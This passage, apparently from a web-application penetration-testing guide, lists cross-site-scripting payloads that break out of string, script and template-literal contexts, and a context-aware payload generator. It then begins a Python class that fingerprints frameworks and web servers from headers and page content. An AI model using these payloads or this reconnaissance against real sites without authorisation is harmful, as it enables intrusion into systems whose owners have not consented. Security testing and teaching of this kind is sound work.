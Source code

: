 ```python
            '\';alert("XSS");//',
            '\";alert("XSS");//',
            '</script><script>alert("XSS")</script>',
            '${alert("XSS")}',  # Template literals
            '`${alert("XSS")}`'
        ]
    
    def generate_context_aware_payload(self, response_body, injection_point):
        context = self.detect_context(response_body, injection_point)
        return self.contexts[context]()
```

### 🔍 Advanced Reconnaissance for Web Apps

#### **Technology Stack Fingerprinting**

**Advanced Header Analysis:**
```python
import requests
import re

class WebTechFingerprinter:
    def __init__(self):
        self.signatures = {
            'frameworks': {
                'Laravel': [
                    {'header': 'Set-Cookie', 'pattern': r'laravel_session'},
                    {'header': 'X-Powered-By', 'pattern': r'PHP'},
                    {'response': 'body', 'pattern': r'csrf_token'}
                ],
                'Django': [
                    {'header': 'Set-Cookie', 'pattern': r'csrftoken'},
                    {'header': 'Set-Cookie', 'pattern': r'sessionid'},
                    {'response': 'body', 'pattern': r'__admin_media_prefix__'}
                ],
                'Ruby on Rails': [
                    {'header': 'Set-Cookie', 'pattern': r'_.*_session'},
                    {'header': 'X-Powered-By', 'pattern': r'Phusion Passenger'},
                    {'response': 'body', 'pattern': r'authenticity_token'}
                ]
            },
            'servers': {
                'Apache': [
                    {'header': 'Server', 'pattern': r'Apache'},
                    {'header': 'X-Powered-By', 'pattern': r'mod_'},
                ],
                'Nginx': [
                    {'header': 'Server', 'pattern': r'nginx'},
                ],
                'IIS': [
                    {'header': 'Server', 'pattern': r'Microsoft-IIS'},
                    {'header': 'X-Powered-By', 'pattern': r'ASP\.NET'},
                ]
            }
        }
    
    def fingerprint(self, url):
        response = requests.get(url)
        results = {'frameworks': [], 'servers': [], 'technologies': []}
        
        for category, technologies in self.signatures.items():
            for tech_name, signatures in technologies.items():
                for signature in signatures:
```